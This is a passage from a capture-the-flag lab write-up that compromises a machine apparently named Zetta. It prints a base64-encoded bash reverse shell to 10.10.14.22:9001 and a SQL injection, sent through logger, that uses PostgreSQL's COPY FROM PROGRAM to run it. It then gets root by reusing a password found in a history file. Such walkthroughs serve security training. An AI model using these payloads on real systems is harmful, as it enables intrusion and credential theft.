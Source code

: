 The listener on my box accepts the ICMP packet and proofs command execution.

Encoding a reverse shell command into _Base64_:
```
echo -n 'bash -i >& /dev/tcp/10.10.14.22/9001 0>&1' | base64

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAxIDA+JjE=
```

Using the **SQL Injection vulnerability** to start a reverse shell connection:
```
logger -p local7.info "',null); DROP TABLE IF EXISTS test; CREATE TABLE test(cmd_output text); COPY test FROM PROGRAM \$$ echo \"echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi85MDAx
IDA+JjE= | base64 -d | bash \" | bash \$$;-- -"
```

The listener on my IP and port 9001 starts a reverse shell connection as _postgres_.

### Privilege Escalation to root

In the **Posgres directory** is a hidden file called _/var/lib/postgresql/.psql_history_ and in this file are the credentials for the _postgres_ user:
```
(...)
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```

With these credentials, it is possible to log into the **Postgres database**:
```
psql -h localhost -U postgres
```

The password may be reused for the root user, but it does not work.
One of the notes in _.tudu.xml_ said, that the shared password scheme looks as the following:
```
<secret>@userid
```

So the password could be _sup3rs3cur3p4ass@root_ instead:
```
roy@zetta:~$ su -
```

By using the `su` command and using the password, we become root on the box!
